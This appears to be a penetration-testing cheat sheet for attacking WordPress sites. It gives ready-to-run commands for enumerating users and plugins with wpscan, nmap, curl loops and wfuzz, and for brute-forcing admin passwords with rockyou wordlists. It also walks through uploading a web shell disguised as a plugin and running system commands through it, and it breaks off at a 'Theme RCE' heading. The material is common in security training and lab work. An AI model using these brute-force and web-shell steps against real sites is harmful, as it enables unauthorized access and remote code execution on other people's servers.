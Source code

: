 # WordPress

## WordPress CMS

**WordPress** \(**WP**, **WordPress.org**\) is a [free and open-source](https://en.wikipedia.org/wiki/Free_and_open-source_software) [content management system](https://en.wikipedia.org/wiki/Content_management_system) \(CMS\) written in [PHP](https://en.wikipedia.org/wiki/PHP)[\[4\]](https://en.wikipedia.org/wiki/WordPress#cite_note-4) and paired with a [MySQL](https://en.wikipedia.org/wiki/MySQL) or [MariaDB](https://en.wikipedia.org/wiki/MariaDB) database. Features include a [plugin architecture](https://en.wikipedia.org/wiki/Plug-in_%28computing%29) and a [template system](https://en.wikipedia.org/wiki/Web_template_system), referred to within WordPress as Themes. WordPress was originally created as a [blog-publishing system](https://en.wikipedia.org/wiki/Blog) but has evolved to support other web content types including more traditional [mailing lists](https://en.wikipedia.org/wiki/Electronic_mailing_list) and [forums](https://en.wikipedia.org/wiki/Internet_forum), media galleries, membership sites, [learning management systems](https://en.wikipedia.org/wiki/Learning_management_system) \(LMS\) and [online stores](https://en.wikipedia.org/wiki/Shopping_cart_software). WordPress is used by 41.4% of the top 10 million websites as of May 2021,[\[5\]](https://en.wikipedia.org/wiki/WordPress#cite_note-Usage_of_content_management_systems_for_websites-5) WordPress is one of the most popular content management system solutions in use.[\[6\]](https://en.wikipedia.org/wiki/WordPress#cite_note-6) WordPress has also been used for other application domains, such as [pervasive display systems](https://en.wikipedia.org/wiki/Pervasive_display_systems) \(PDS\).[\[7\]](https://en.wikipedia.org/wiki/WordPress#cite_note-7)

The text above was extracted from [Wikipedia](https://en.wikipedia.org/wiki/WordPress).

## Enumerating WordPress

WordPress Key Points:

* Tools &gt; Site Health &gt; Info &gt; Server
* Tools &gt; Site Health &gt; Info &gt; Database
* Plugins are written in PHP
* Upload Plugins with PHP Reverse Shell

### Nmap

We can nmap nse scripts:

```text
sudo nmap --script http-wordpress-enum target.xyz
```

### WPScan

Before starting a wpscan you should update it:

```text
wpscan --update
```

To startup, we can use the “non-intrusive” default scan using only the `--url` parameter to determine the WordPress version installed and some other information about the installation including PHP version, potential vulnerabilities, and interesting files, such as robots.txt files which could contain interesting directory or file references

```text
wpscan --url http://target
```

Enumerate users:

```text
wpscan --url http://target --enumerate u
```

Enumerate plugins:

```text
wpscan --url http://target --enumerate p
```

Enumerate credentails with random-user-agent header:

```text
wpscan --url http://target --usernames users.txt -P rockyou.txt random-user-agent
```

### Curl

We can enumerate users with curl and if the HTTP status code from the response is 301 then it means that the user exists:

```text
 curl -s -o /dev/null -w "%{http_code}\n" http://target/author/username
```

To automate this process we can create a loop:

```bash
for i in $(cat users.txt); \ do curl -s -o /dev/null -w "%{http_code}:$i\n" \ http://target/author/$i; done
```

An alternative method to enumerate users without a wordlist can be the following \(author=1,author=2, etc\):

```bash
 for i in {1..5}; \ do curl -L -s http://target/?author=$i \ | grep -iPo '(?<=<title>)(.*)(?=</title>)' \ | cut -f1 -d" " |grep -v "Page"; done
```

### Plecost

Enumerate plugins:

```text
plecost -i /usr/share/plecost/wp_plugin_list.txt http://target
```

### Enumerating Plugins

SecLists has a good wordlist for fuzzing for plugins called `wp-plugins.fuzz.txt`

```text
wfuzz -c -t 200 --hc=404 -w wp-plugins.fuzz.txt http://10.10.10.88/webservices/wp/FUZZ
```

We can wpscan to enumerate plugins:

```text
 wpscan --url http://target --enumerate p
```

## Attacking WordPress

### Bruteforce

#### wpscan

We can supply a wordlist of passwords, and the “--username” parameter with a value of “admin” and if we’re lucky, we may be able to get access to the administrative interface:

```text
wpscan --url http://target --wordlist /usr/share/wordlists/rockyou.txt --username admin
```

General Bruteforce with random-user-agent:

```text
wpscan --url http://target --usernames users.txt -P rockyou.txt random-user-agent
```

#### **wpbf**

{% embed url="https://github.com/atarantini/wpbf" %}

Bruteforce with username:

```text
 python wpbf.py -w passwords.txt -u admin http://target
```

### Plugins WebShell

First, find a web shell and compress it into a zip file:

```text
kali@kali:~$ cd /usr/share/seclists/Web-Shells/WordPress
kali@kali:/usr/share/seclists/Web-Shells/WordPress$ sudo zip plugin-shell.zip plugin-shell.php
adding: plugin-shell.php (deflated 58%)
```

Then follow these steps:

Plugins -&gt; Add New -&gt; Upload Plugin -&gt; Browse -&gt; plugin-shell.zip -&gt; Open -&gt; Install Now -&gt;

After installing the plugins, visit the uploaded and installed plugin directory/file and execute it via the browser, burp, curl or anything similar:

```text
kali@kali:~$ curl http://10.10.10.10/wp-content/plugins/plugin-shell/plugin-shell.php?cmd=whoami
www-data
```

### Theme RCE

WordPress &gt; Appearance &gt; Theme Editor &gt; Theme Header


